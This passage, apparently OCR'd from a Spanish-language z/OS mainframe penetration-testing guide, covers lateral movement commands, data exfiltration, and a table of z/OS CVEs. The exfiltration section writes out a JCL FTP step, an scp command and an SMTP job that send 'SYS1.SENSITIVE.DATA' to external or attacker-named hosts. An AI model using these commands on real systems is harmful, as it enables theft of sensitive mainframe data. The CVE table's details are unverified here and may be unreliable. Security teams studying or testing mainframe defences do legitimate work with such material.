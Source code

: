 ### 4.3 Movimiento Lateral

#### Técnicas de Lateral Movement
```bash
# Submit jobs en otros sistemas
SUBMIT 'USER.JOBS(LATMOVE)'

# Uso de APPC para movimiento lateral
APPC ALLOCATE SESSION(<session>)

# Acceso a datasets remotos
COPY 'REMOTE.DATASET' 'LOCAL.DATASET'
```

### 4.4 Exfiltración de Datos

#### Métodos de Exfiltración
```bash
# Via FTP
//FTPSTEP  EXEC PGM=FTP,PARM='<remote_server>'
//INPUT    DD   *
<username>
<password>
PUT 'SYS1.SENSITIVE.DATA' sensitive.txt
QUIT
/*

# Via USS
cp //'SYS1.SENSITIVE.DATA' /tmp/exfil.txt
scp /tmp/exfil.txt user@external:/tmp/

# Via Email (si disponible)
//MAILSTEP EXEC PGM=SMTP
//SYSIN    DD   *
TO: attacker@external.com
SUBJECT: Exfiltrated Data
<datos_sensibles>
/*
```

---

## 5. CVEs y Vulnerabilidades Conocidas

### 5.1 CVEs Críticos en z/OS

| CVE | Año | Descripción | CVSS | Componente |
|-----|-----|-------------|------|------------|
| **CVE-2023-32342** | 2023 | IBM z/OS RACF privilege escalation | 7.8 | RACF |
| **CVE-2023-28953** | 2023 | IBM z/OS USS command injection | 8.8 | USS |
| **CVE-2022-34356** | 2022 | IBM z/OS SMF data exposure | 5.5 | SMF |
| **CVE-2022-22485** | 2022 | IBM CICS TS privilege escalation | 7.2 | CICS |
| **CVE-2021-39068** | 2021 | IBM z/OS FTP server buffer overflow | 9.8 | FTP |
| **CVE-2021-29741** | 2021 | IBM z/OS Connect privilege escalation | 6.5 | z/OS Connect |
| **CVE-2020-4543** | 2020 | IBM z/OS USS privilege escalation | 7.8 | USS |
